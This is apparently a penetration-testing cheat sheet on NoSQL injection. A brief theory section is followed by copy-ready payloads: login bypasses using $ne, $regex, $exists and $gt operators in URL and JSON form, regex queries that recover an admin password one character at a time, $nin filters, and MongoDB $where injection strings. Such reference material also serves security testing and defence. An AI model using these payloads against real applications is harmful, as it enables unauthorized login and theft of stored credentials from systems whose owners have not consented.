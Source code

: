 # NoSQL Injection

## Theory

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Practice

#### Authentication Bypass

Using not equal ($ne) or greater ($gt) we can try to bypass authentication

{% tabs %}
{% tab title="URL" %}
```
username[$ne]=toto&password[$ne]=toto          #Not Equal
username[$regex]=.*&password[$regex]=.*        #Regex
username[$exists]=true&password[$exists]=true  #If Exist
username[$ne]=admin&password[$gt]=0            #Greater
```
{% endtab %}

{% tab title="JSON" %}
```
{"username": {"$ne": null}, "password": {"$ne": null} }             #Not Equal
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }           #Not Equal
{"username": {"$gt": undefined}, "password": {"$gt": undefined} }   #greater
```
{% endtab %}
{% endtabs %}

#### Extract data

{% tabs %}
{% tab title="URL" %}
We can use regex to find the lenght of a value

```
username[$regex]=.{25}&pass[$ne]=1
```

We can use regex to extract informations.

```
username[$eq]=admin&password[$regex]=^p
username[$eq]=admin&password[$regex]=^pa
username[$eq]=admin&password[$regex]=^pas

username[$ne]=toto&password[$regex]=^p
username[$ne]=toto&password[$regex]=^pa
username[$ne]=toto&password[$regex]=^pas
```

We can use `$nin` (not in) if you don't want to match with some values.

```
#<Matches non of the values of the array> (not test and not admin)
username[$nin][admin]=admin&username[$nin][test]=test&password[$regex]=^p
```
{% endtab %}

{% tab title="JSON" %}
We can use regex to find the lenght of a value
```
{"username": {"$eq": "admin"}, "password": {"$regex": ".{25}" }}
```

We can use regex to extract informations.

```
{"username": {"$eq": "admin"}, "password": {"$regex": "^p" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pa" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^pas" }}
```

We can use `$nin` (not in) if you don't want to match with some values.

```
#<Matches non of the values of the array> (not test and not admin)
{"username":{"$nin":["admin", "test"]}, "username":{"$regex": "^user" } ,"password":{"$ne":"1"}} 
```
{% endtab %}
{% endtabs %}

#### &#x20;MangoDB Injection

{% tabs %}
{% tab title="Payloads" %}
You may try to make boolean based injection on MongoDB with following payloads

```
, $where: '1 == 1'
$where: '1 == 1'
' || 1==1//
' || 1==1%00
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#extract-length-information" %}
